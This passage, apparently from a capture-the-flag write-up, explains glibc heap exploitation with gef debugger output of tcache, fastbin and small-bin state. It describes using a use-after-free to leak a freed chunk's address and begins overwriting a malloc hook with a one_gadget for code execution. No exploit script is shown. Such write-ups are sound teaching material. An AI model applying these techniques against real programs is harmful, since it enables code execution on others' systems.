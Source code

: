 Using gef, we can even see it in the small bin:
```
gef➤  heap bins
───────────────────── Tcachebins for arena 0x7f89a5507c40 ─────────────────────
Tcachebins[idx=0, size=0x10] count=7  ←  Chunk(addr=0x556b3a594200, size=0x20, flags=)  ←  Chunk(addr=0x556b3a594300, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0x556b3a593290, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0x556b3a5942e0, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0x556b3a5932f0, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0x556b3a593bd0, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0x556b3a593bb0, size=0x20, flags=PREV_INUSE)
Tcachebins[idx=1, size=0x20] count=1  ←  Chunk(addr=0x556b3a593310, size=0x30, flags=PREV_INUSE)
Tcachebins[idx=2, size=0x30] count=1  ←  Chunk(addr=0x556b3a5932b0, size=0x40, flags=PREV_INUSE)
Tcachebins[idx=3, size=0x40] count=1  ←  Chunk(addr=0x556b3a593340, size=0x50, flags=PREV_INUSE)
Tcachebins[idx=5, size=0x60] count=1  ←  Chunk(addr=0x556b3a594270, size=0x70, flags=)
Tcachebins[idx=7, size=0x80] count=1  ←  Chunk(addr=0x556b3a593390, size=0x90, flags=PREV_INUSE)
Tcachebins[idx=11, size=0xc0] count=1  ←  Chunk(addr=0x556b3a593ae0, size=0xd0, flags=PREV_INUSE)
Tcachebins[idx=14, size=0xf0] count=1  ←  Chunk(addr=0x556b3a593420, size=0x100, flags=PREV_INUSE)
Tcachebins[idx=29, size=0x1e0] count=1  ←  Chunk(addr=0x556b3a593520, size=0x1f0, flags=PREV_INUSE)
Tcachebins[idx=59, size=0x3c0] count=1  ←  Chunk(addr=0x556b3a593710, size=0x3d0, flags=PREV_INUSE)
────────────────────── Fastbins for arena 0x7f89a5507c40 ──────────────────────
Fastbins[idx=0, size=0x10] 0x00
Fastbins[idx=1, size=0x20] 0x00
Fastbins[idx=2, size=0x30] 0x00
Fastbins[idx=3, size=0x40] 0x00
Fastbins[idx=4, size=0x50] 0x00
Fastbins[idx=5, size=0x60] 0x00
Fastbins[idx=6, size=0x70] 0x00
─────────────────── Unsorted Bin for arena '*0x7f89a5507c40' ───────────────────
[+] Found 0 chunks in unsorted bin.
──────────────────── Small Bins for arena '*0x7f89a5507c40' ────────────────────
[+] small_bins[3]: fw=0x556b3a5941b0, bk=0x556b3a5941b0
 →   Chunk(addr=0x556b3a5941c0, size=0x40, flags=PREV_INUSE)
[+] small_bins[4]: fw=0x556b3a594210, bk=0x556b3a594210
 →   Chunk(addr=0x556b3a594220, size=0x50, flags=PREV_INUSE)
[+] Found 2 chunks in 2 small non-empty bins.
──────────────────── Large Bins for arena '*0x7f89a5507c40' ────────────────────
[+] Found 0 chunks in 0 large non-empty bins.
```

With that, we can just view that chunk using the UAF, and we will have our infoleak.

### OneGadget Write

So next up we will be writing the address of a system to the hook. Starting off, I will allocate all chunks from the tcache to clear it out. This will help us pass checks in malloc later on (when I tried this without clearing out the chunk, I failed some checks and the program crashed without giving us code execution). So how the tcache works, it will store free chunks in the tcache in a linked list. The linked list will point to the next chunk which will be allocated:

```
gef➤  heap bins
───────────────────── Tcachebins for arena 0x7f73349e5c40 ─────────────────────
Tcachebins[idx=0, size=0x10] count=5  ←  Chunk(addr=0x565454052290, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0x565454052380, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0x5654540522f0, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0x5654540524b0, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0x565454052490, size=0x20, flags=PREV_INUSE)
Tcachebins[idx=2, size=0x30] count=1  ←  Chunk(addr=0x5654540522b0, size=0x40, flags=PREV_INUSE)
Tcachebins[idx=5, size=0x60] count=1  ←  Chunk(addr=0x565454052310, size=0x70, flags=PREV_INUSE)
Tcachebins[idx=11, size=0xc0] count=1  ←  Chunk(addr=0x5654540523c0, size=0xd0, flags=PREV_INUSE)
────────────────────── Fastbins for arena 0x7f73349e5c40 ──────────────────────
Fastbins[idx=0, size=0x10] 0x00
Fastbins[idx=1, size=0x20] 0x00
Fastbins[idx=2, size=0x30] 0x00
Fastbins[idx=3, size=0x40] 0x00
Fastbins[idx=4, size=0x50] 0x00
Fastbins[idx=5, size=0x60] 0x00
```